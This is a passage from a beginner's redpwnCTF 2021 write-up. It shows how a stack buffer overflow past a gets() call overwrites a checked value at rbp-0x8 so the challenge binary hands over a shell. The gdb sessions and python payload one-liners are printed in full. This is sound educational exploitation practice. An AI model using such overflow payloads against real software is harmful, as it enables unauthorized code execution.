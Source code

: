 The program checks if there's `0xffffffffffffffff` in memory `0x8` bytes before
the `$rbp` register. The program allocates 32 bytes of memory for our heartfelt
message, but it continues reading even if our heartfelt message is longer than
32 bytes. Let's see if we can overwrite that register >:)

Let's set a breakpoint after the `<gets@plt>` call in gdb, and run the program
with 40 bytes of `0x61` ('a')

```
(gdb) break *0x00000000004012a5
Breakpoint 1 at 0x4012a5

(gdb) run < <(python3 -c "print('a' * 40)")
```

I'm using the `run` command with `<` and `<()` to pipe the output of python
into the program's `stdin`. It's unnecessary at this stage because there's an
'a' key on my keyboard, but if we were to send raw bytes, this would make it a
lot easier.

I'm also using [gef](https://github.com/hugsy/gef) so I get access to a command
called `context` which prints all sorts of information about registers, the
stack and a small dissassembly window. I won't show it's output here, but it
was an indispensable tool that you should install nonetheless.

Let's print the memory at `[$rbp - 0x8]`:

```
(gdb) x/8gx $rbp - 0x8
0x7fffffffd758:  0x0000000000000000 0x0000000000000000
0x7fffffffd768:  0x00007ffff7de4b25 0x00007fffffffd858
0x7fffffffd778:  0x0000000100000064 0x00000000004011f6
0x7fffffffd788:  0x0000000000001000 0x00000000004012c0
```

Hmmm, no overwriteage yet. Let's try 56 bytes instead:

```
(gdb) run < <(python3 -c "print('a' * 56)")
(gdb) x/8gx $rbp - 0x8
0x7fffffffd758:  0x6161616161616161 0x6161616161616161
0x7fffffffd768:  0x00007ffff7de4b00 0x00007fffffffd858
0x7fffffffd778:  0x0000000100000064 0x00000000004011f6
0x7fffffffd788:  0x0000000000001000 0x00000000004012c0
(gdb) x/1gx $rbp - 0x8
0x7fffffffd758: 0x6161616161616161
```

Jackpot! We've overwritten 16 bytes of the adress that the `cmp` instruction
reads. Let's try setting it to `0xff` instead, so we get a shell. Python 3 is
not that great for binary exploitation, so the code for this is a little bit
ugly, but if it works, it works!

```
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'a' * 40 + b'\xff' * 8)")
(gdb) x/1gx $rbp - 0x8
0x7fffffffd758: 0xffffffffffffffff
```


[meta]: <title> (redpwnCTF 2021)
[meta]: <subtitle> (A noob's perspective)
[meta]: <author> (Loek)
[meta]: <date> (July 13 2021)
[meta]: <tags> (hacking, CTF, writeup)
[meta]: <cover> (/img/redpwn2021.png)